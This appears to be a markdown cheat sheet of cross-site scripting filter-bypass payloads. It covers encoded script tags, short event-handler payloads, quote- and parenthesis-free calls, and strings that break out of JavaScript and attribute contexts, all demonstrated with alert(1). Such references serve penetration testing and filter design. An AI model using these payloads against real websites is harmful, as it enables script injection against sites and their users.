 ### Encoding Bypass

Different encoding methods to bypass filters:

```javascript
# HTML Encoding
&lt;script&gt;alert(1)&lt;/script&gt;

# URL Encoding
%3Cscript%3Ealert(1)%3C%2Fscript%3E

# Unicode Encoding
\u003Cscript\u003Ealert(1)\u003C/script\u003E

# Hex Encoding
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```

### Content Length Bypass

Bypassing length restrictions:

```javascript
# Short Payload
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
<q/oncut=alert(1)>
```

### Character Filter Bypass

Avoiding filtered characters:

```javascript
# Quotes Bypass
<img src=x onerror=alert`1`>
<script>alert(String.fromCharCode(88,83,83))</script>

# Parentheses Bypass
onerror=alert`1`
onclick=alert.call`1`
onmouseover=alert.bind`1`
```

### Context Escape Bypass

Breaking out of different contexts:

```javascript
# JavaScript Context
'-alert(1)-'
';alert(1)//
\';alert(1)//

# Attribute Context
" onmouseover="alert(1)
" autofocus onfocus="alert(1)
```
